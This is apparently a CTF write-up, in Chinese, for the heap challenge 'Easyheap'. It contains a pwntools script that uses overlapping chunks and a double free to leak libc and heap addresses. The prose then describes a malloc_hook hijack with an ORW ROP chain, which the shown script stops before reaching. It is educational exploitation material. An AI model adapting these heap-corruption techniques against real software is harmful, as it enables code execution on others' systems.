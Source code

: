 首先利用extend去free一个unsortedbin，之后申请chunk，进行切片，使libc落到被覆盖的chunk里，打印libc_base。此时这个chunk同时处于allocate和free态，将它申请回来，可以double free泄露heap_base。

之后劫持malloc_hook，动调后，写入gadget add rsp 0x38 ；ret，栈上rop进行orw获取flag

```
from pwn import *
context(os='linux',arch='amd64',log_level='debug')

#p = process('./Easyheap')
#libc = ELF('/home/hacker/glibc-all-in-one/libs/2.30-0ubuntu2_amd64/libc-2.30.so')
libc = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")

p = remote("node4.buuoj.cn",28436)
#libc = ELF('/home/hacker/Desktop/libc/amd64/libc-2.30.so')

elf = ELF('./Easyheap')


def add(size,content):
    p.sendlineafter("&gt;&gt; :\n",'1')
    p.sendlineafter("Size: \n",str(int(size)))
    p.sendlineafter("Content: \n",content)

def edit(idx,content):
    p.sendlineafter("&gt;&gt; :\n",'4')
    p.sendlineafter("Index:\n",str(idx))
    p.sendafter("Content:\n",content)

def show(idx):
    p.sendlineafter("&gt;&gt; :\n",'3')
    p.sendlineafter("Index:\n",str(idx))

def free(idx):
    p.sendlineafter("&gt;&gt; :\n",'2')
    p.sendlineafter("Index:\n",str(idx))

add(0x30,"/flag".ljust(0x10,'a'))#0
add(0x500,'a'*0x4d0)
add(0x10,'a'*0x10)
add(0x20,'a'*0x20)#3
edit(0,'b'*0x10+p64(0)+p64(0x501))
free(1)
add(0x4d0,'c'*0x4d0)#1
show(2)
p.recvuntil("Content: ")
libc_base = u64(p.recv(6).ljust(8,'\x00'))-96-0x10-libc.sym["__malloc_hook"]
log.info("libc_base="+hex(libc_base))

add(0x10,'a'*0x10)#4 = 2 double free
add(0x10,'a'*0x10)
add(0x30,"/flag\x00".ljust(0x30,'a'))#6
free(5)
free(2)
show(4)
p.recvuntil("Content: ")
heap_base = u64(p.recv(6).ljust(8,'\x00'))-0x7b0
log.info("heap_base="+hex(heap_base))
flag_addr = heap_base+0x7d0
log.info("flag_addr="+hex(flag_addr))

add(0x10,'a'*0x10)#2
add(0x10,'a'*0x10)#5

add(0x50,'a'*0x20)#7
```